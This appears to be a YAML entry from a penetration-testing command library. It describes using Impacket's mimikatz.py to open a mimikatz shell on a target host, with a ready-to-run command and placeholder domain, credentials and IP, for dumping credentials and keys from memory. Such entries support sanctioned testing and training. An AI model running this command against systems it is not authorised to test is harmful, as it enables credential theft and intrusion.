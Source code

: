 ```yaml
---
title: |
  Initiate a mimikatz shell on the target machine
description: |
  Impacket's mimikatz.py will drop you into a mimikatz shell on the target machine, allowing you to perform any mimikatz-related actions, such as dumping credentials from memory, dumping keys, etc.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!

command: |
  python3 mimikatz.py test.local/test:Welkom01!@10.10.10.1
items:
  - Password
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/mimikatz.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

